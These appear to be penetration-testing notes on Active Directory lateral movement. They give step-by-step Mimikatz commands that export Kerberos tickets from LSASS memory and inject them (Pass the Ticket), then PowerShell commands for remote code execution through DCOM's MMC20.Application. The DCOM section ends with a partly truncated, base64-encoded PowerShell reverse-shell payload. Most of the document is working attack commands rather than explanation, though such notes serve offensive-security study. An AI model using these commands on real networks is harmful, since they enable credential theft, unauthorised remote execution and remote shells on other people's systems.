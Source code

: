 ## Pass the Ticket
Export and re-inject a TGS elsewhere on the network and use it to authenticate a specific service. 

> Prerequisites: If the service tickets belong to the current user, then no administrative privileges are required.

1. Login to a domain machine as local admin
2. Run Mimikatz
3. Enable debug privileges and export all TGT/TGS from LSASS memory to disk in the kirbi Mimikatz format:
   `privilege::debug`
   `sekurlsa::tickets /export`
4. Verify newly generated tickets:
   `dir *.kirbi`
5. Pick the ticket of target user and service and inject it into current user's session:
   `kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi`
6. Check that the ticket is now in current session:
   `klist`
7. Access the target service normally

## DCOM

Distributed Component Object Model (DCOM): 
- system for creating software components that interact with each other
- interaction between multiple computers over a network

The Microsoft Management Console (MMC) COM Application Class allows the creation of Application Objects, which expose the ExecuteShellCommand method under the Document.ActiveView property. As its name suggests, this method allows execution of any shell command as long as the authenticated user is authorized, which is the default for local administrators.

> Prerequisite: local administrator

Example: Running calc.exe
1. log in to domain machine as local admin
2. Open an elevated PS prompt. Instantiate a remote MMC 2.0 application by specifying the target IP of target machine as the second argument of the *GetTypeFromProgID* method:
   `$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","19 2.168.50.73"))`
3. Execute command:   `$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")`
	- 4 parameters: **Command**, **Directory**, **Parameters**, **WindowState**
		- Only **Command** and **Parameters** are interesting

To get a reverse shell, replace the payload in step 3 (see payload in above section):
`$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAF MAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A... AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")`





